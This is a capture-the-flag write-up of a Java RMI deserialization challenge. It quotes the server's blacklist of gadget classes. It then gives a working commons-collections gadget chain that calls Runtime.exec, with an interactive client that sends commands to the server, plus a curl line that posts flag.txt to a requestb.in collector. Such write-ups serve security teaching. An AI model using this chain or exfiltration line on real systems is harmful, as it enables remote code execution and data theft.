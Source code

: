 # Array List (Pwn, 350p)

The task is similar to https://github.com/p4-team/ctf/tree/master/2018-01-20-insomnihack/pwn_magic_hat and a bit to https://github.com/p4-team/ctf/tree/master/2016-08-21-bioterra-ctf/akashic_records

In short: we have a Java RMI server running, and we need to craft a deserialization chain to exploit this server.
We get a [client](client.jar) and [library](notsoserial-modified.jar) which is added on the server.
We can add those jars to IntelliJ project and it will decompile the code on the fly for us.

Client is trivial, it connects to the server and uses the Remote API.
The API is:

```java
public interface Service extends Remote {
    Store getStore() throws RemoteException;

    Store createArrayList(Store var1) throws RemoteException;

    Store createFastArrayList(Store var1) throws RemoteException;

    String getString(Store var1, int var2) throws RemoteException;

    Store addRandom(Store var1, int var2) throws RemoteException;
}
```

And Store class is:

```java
import java.io.Serializable;
import java.util.ArrayList;
import java.util.Collection;
import org.apache.commons.collections.FastArrayList;

public class Store implements Serializable {
    private static final long serialVersionUID = -878586296715953149L;
    public Collection[] collections = new Collection[10];
    public int counter = 0;
    private static final int MAX_COLLECTIONS = 10;

    public Store() {
    }

    public int createArrayList() {
        if (this.counter == 10) {
            return 0;
        } else {
            ArrayList<Integer> list = new ArrayList();
            this.collections[this.counter++] = list;
            return 1;
        }
    }

    public int createFastArrayList() {
        if (this.counter == 10) {
            return 0;
        } else {
            FastArrayList list = new FastArrayList();
            this.collections[this.counter++] = list;
            return 1;
        }
    }

    public int insert(int index, Object obj) {
        if (index >= 0 && index < 10) {
            if (this.collections[index] == null) {
                return 0;
            } else {
                this.collections[index].add(obj);
                return 1;
            }
        } else {
            return 0;
        }
    }
}
```

Store class is the one we need to use for the exploit, since it's the object we can send to the server and server will deserialize it.
We can see that it contains an array of Collections, and we will use a very particular collection to exploit the server.

There is one small obstacle:

```java
        this.blacklist.add(this.internalName("java.lang.reflect.InvocationHandler"));
        this.blacklist.add(this.internalName("org.apache.commons.beanutils.BeanComparator"));
        this.blacklist.add(this.internalName("org.apache.commons.collections.map.LazyMap"));
        this.blacklist.add(this.internalName("org.apache.commons.collections4.comparators.TransformingComparator"));
        this.blacklist.add(this.internalName("org.apache.commons.collections4.functors.InstantiateTransformer"));
        this.blacklist.add(this.internalName("org.apache.commons.collections.keyvalue.TiedMapEntry"));
        this.blacklist.add(this.internalName("org.apache.commons.fileupload.disk.DiskFileItem"));
        this.blacklist.add(this.internalName("org.apache.commons.io.output.DeferredFileOutputStream"));
        this.blacklist.add(this.internalName("org.hibernate.tuple.component.AbstractComponentTuplizer"));
        this.blacklist.add(this.internalName("com.sun.rowset.JdbcRowSetImpl"));
        this.blacklist.add(this.internalName("org.jboss.interceptor.proxy.InterceptorMethodHandler"));
        this.blacklist.add(this.internalName("sun.rmi.transport.tcp.TCPEndpoint"));
        this.blacklist.add(this.internalName("sun.rmi.server.ActivationGroupImpl"));
        this.blacklist.add(this.internalName("javax.xml.transform.Templates"));
        this.blacklist.add(this.internalName("java.lang.reflect.Modifier"));
        this.blacklist.add(this.internalName("java.net.URLConnection"));
        this.blacklist.add(this.internalName("org.apache.commons.collections.functors.InstantiateTransformer"));
        this.blacklist.add(this.internalName("org.apache.commons.collections4.functors.InstantiateTransformer"));
        this.blacklist.add(this.internalName("org.codehaus.groovy.runtime.ConvertedClosure"));
        this.blacklist.add(this.internalName("org.codehaus.groovy.runtime.MethodClosure"));
        this.blacklist.add(this.internalName("org.springframework.beans.factory.ObjectFactory"));
        this.blacklist.add(this.internalName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl"));
```

So we can't use some of the classes.
Server can create for us `org.apache.commons.collections.FastArrayList` which means there has to be commons-collections on the server.

Specifically we will use `TransformedSet` decorator.
To use it we need a `Set` and `Transformer`.
The idea is that every time we add something to this `TransformedSet`, the actual value stored will be a result of calling Transformer on the passed value.
A useful Transformer is `ChainedTransformer`, which calls multiple Transformers in a chain.
We will also need `ConstantTransformer` which simply returns a constant value every time, and finally `InvokerTransformer` which can call functions.

What we want to call in the end is `Runtime.getRuntime().exec("command")`.

ConstantTransformer has to actually return and object so we will pass there `Runtime.class` metaclass object so we need `new ConstantTransformer(Runtime.class)`

From there we can use reflection to get handle of a method by calling `.getMethod("getRuntime")` so the code will be `new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]})`

Now we actually want to invoke this `getRuntime` to get handle of the `Runtime` object, so we need `new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]})`

Finally we want to run `exec("command")` function of the Runtime class, so we do `new InvokerTransformer("exec",new Class[]{String.class}, new String[]{command})`

Keep in mind we need to return some value from this TransformerChain, so it can get stored in the Set in the end, so we simply pass another ConstantTransformer.
As a result we have:

```java
public static Store preparePayload(final String command) {
	final Transformer[] transformers = new Transformer[]{
			new ConstantTransformer(Runtime.class),
			new InvokerTransformer("getMethod", new Class[]{
					String.class, Class[].class}, new Object[]{
					"getRuntime", new Class[0]}),
			new InvokerTransformer("invoke", new Class[]{
					Object.class, Object[].class}, new Object[]{
					null, new Object[0]}),
			new InvokerTransformer("exec",
					new Class[]{String.class}, new String[]{command}),
			new ConstantTransformer(1)};
	final Transformer transformerChain = new ChainedTransformer(transformers);
	Set<Integer> backingSet = new HashSet<>();
	Set transformedSet = TransformedSet.decorate(backingSet, transformerChain);
	Store store = new Store();
	store.collections[0] = transformedSet;
	return store;
}
```

It's very useful that the server has `addRandom` method, which adds something to the collection we provide.
Otherwise we would need a bit more magic, to store values on our side, without invoking the transformer chain.
This would require adding a "fake" transformer, adding values and then substituting the transformer for the chain, using reflection (so it doesn't trigger).
Fortunately we can simply send empty Set, and ask server to add values, which will trigger the chain.

Now we just need to connect to the remote endpoint and start sending commands:

```java
public static void main(final String[] args) throws Exception {
	System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");
	Registry registry = LocateRegistry.getRegistry(InetAddress.getByName("arraylist.dhavalkapil.com").getHostName(), 9999);
	Service service = (Service) registry.lookup("backdoor");
	Scanner sc = new Scanner(System.in);
	while (true) {
		System.out.print("> ");
		execCommand(service, sc.nextLine());
	}
}

private static void execCommand(Service service, String command) {
	try {
		service.addRandom(preparePayload(command), 0);
	} catch (Exception e) {
		e.printStackTrace();
	}
}
```

We know the flag is in `flag.txt` file so we can just grab it with simple `curl -d @flag.txt -X POST https://requestb.in/XXXXX` and we get `CTF{j4v4_64d637_ch41n1n6_15_fun}`

